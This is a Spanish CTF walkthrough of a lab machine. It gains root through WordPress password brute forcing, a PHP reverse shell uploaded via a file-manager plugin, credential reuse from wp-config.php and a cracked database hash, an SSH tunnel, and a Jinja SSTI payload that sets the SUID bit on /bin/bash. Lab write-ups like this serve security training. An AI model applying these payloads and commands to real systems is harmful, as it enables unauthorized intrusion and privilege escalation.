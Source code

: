Escaneo de puertos con Nmap:
```
nmap -p- -sC -sV -sS --min-rate 5000 -n -vvv -Pn 192.168.1.48 -oN escaneo
```

![](../../../Images/Pasted%20image%2020250213083912.png)

Observo lo que corre por el puerto 80:

![](../../../Images/Pasted%20image%2020250213083956.png)

Usaré Gobuster para encontrar directorios

![](../../../Images/Pasted%20image%2020250213084242.png)

Accedo al directorio /wp1

![](../../../Images/Pasted%20image%2020250213084304.png)

Y automáticamente en la forma en que está construida esta página me doy cuenta que estoy ante un Wordpress

Usaré la herramienta de Wpscan para encontrar usuarios y plugins maliciosos
```
wpscan --url http://thefirstavenger.thl/wp1/ -e u,vp
```

![](../../../Images/Pasted%20image%2020250213084747.png)

![](../../../Images/Pasted%20image%2020250213084801.png)

Me encontró el usuario admin

Haré fuerza bruta con la misma herramienta para encontrar la contraseña de este usuario:
```
wpscan --url http://thefirstavenger.thl/wp1/ --passwords /usr/share/wordlists/rockyou.txt --usernames admin
```

![](../../../Images/Pasted%20image%2020250213084905.png)

![](../../../Images/Pasted%20image%2020250213084922.png)

Y la contraseña del usuario admin es spongebob

Accedo por el panel de Login web con estas credenciales:

![](../../../Images/Pasted%20image%2020250213085021.png)

![](../../../Images/Pasted%20image%2020250213085034.png)

Ahora estoy dentro de Wordpress

Ahora voy a Plugins-Añadir nuevo plugin, e instalo el Bit File Manager 

![](../../../Images/Pasted%20image%2020240829101111.png)

Ahora voy a la pestaña Bit File Manager

![](../../../Images/Pasted%20image%2020240829101217.png)

Luego a wp-content

![](../../../Images/Pasted%20image%2020240829101241.png)

Ahora Uploads

![](../../../Images/Pasted%20image%2020240829101258.png)

Ahora me crearé una RevShell con Msfvenom en un archivo .php

![](../../../Images/Pasted%20image%2020250213085432.png)

Y la subo al directorio /uploads:

![](../../../Images/Pasted%20image%2020250213085542.png)

Voy a la dirección donde subí este archivo:

![](../../../Images/Pasted%20image%2020250213085622.png)

Acá está mi archivo

Me pongo a la escucha con Netcat y doy click en mi archivo:

![](../../../Images/Pasted%20image%2020250213085717.png)

Y ahora estoy dentro de la máquina

Tratamiento de la TTY:

![](../../../Images/Pasted%20image%2020250213090018.png)

![](../../../Images/Pasted%20image%2020250213090038.png)

## ESCALADA DE PRIVILEGIOS

Observo los usuarios que contiene esta máquina

![](../../../Images/Pasted%20image%2020250213110333.png)

Existe un único usuario llamado Steve

En la ubicación /var/www/html/wp1/ encuentro y leo el wp-config.php:

![](../../../Images/Pasted%20image%2020250213103824.png)

Tengo la contraseña de una base de datos y su usuario

Accedo a ella usando esas credenciales:

![](../../../Images/Pasted%20image%2020250213104949.png)

Y estoy dentro de la base de datos Mysql

Miraré las bases de datos:

![](../../../Images/Pasted%20image%2020250213110110.png)

Usaré la base de datos Top_secret

![](../../../Images/Pasted%20image%2020250213110149.png)

Veré sus tablas:

![](../../../Images/Pasted%20image%2020250213110200.png)

Selecciono todo de esta tabla de Avengers

![](../../../Images/Pasted%20image%2020250213110233.png)

Y tengo la contraseña hasheada del usuario steve de la máquina

La crackeo:

![](../../../Images/Pasted%20image%2020250213110429.png)

Intrusión por el puerto 22 SSH con el usuario steve y la contraseña thecaptain:

![](../../../Images/Pasted%20image%2020250213110527.png)

![](../../../Images/Pasted%20image%2020250213110541.png)

Y listo, volví a entrar a la máquina pero esta vez siendo el usuario steve

Flag de user:

![](../../../Images/Pasted%20image%2020250213110608.png)

Miraré los puertos abiertos con:
```
ss -tulun
```

![](../../../Images/Pasted%20image%2020250213110737.png)

Existe un puerto 7092 corriendo de manera local, sabiendo esto y ya que tengo un ssh, me conectaré de la siguiente manera redirigiendo el puerto 7092 de la máquina a mi puerto 7092 local:
```
ssh -L 9090:127.0.0.1:7092 steve@192.168.1.48
```

![](../../../Images/Pasted%20image%2020250213110921.png)

Ahora si voy desde el navegador a "127.0.0.1:9090", veré la web que está corriendo en ese puerto local de la máquina:

![](../../../Images/Pasted%20image%2020250213111123.png)

Tengo un campo para ingresar datos

Probaré ingresando:
```
{{7*7}}
```

![](../../../Images/Pasted%20image%2020250213111406.png)

Si el resultado es 49 quiere decir que estoy ante un SSTI:

![](../../../Images/Pasted%20image%2020250213111437.png)

Efectivamente estoy ante un Server Side Template Injection, eso significa que puedo ejecutar comandos de manera remota, intentaré con este código:
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

![](../../../Images/Pasted%20image%2020250213111642.png)

Si funciona

Por ende le daré permisos de ejecución a la /bin/bash desde acá:
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('chmod u+s /bin/bash').read() }}
```

![](../../../Images/Pasted%20image%2020250213111753.png)

Ahora regreso nuevamente a la máquina y ejecuto "bash -p"

![](../../../Images/Pasted%20image%2020250213111833.png)

Y listo, soy ROOT

Flag de root:

![](../../../Images/Pasted%20image%2020250213111855.png)

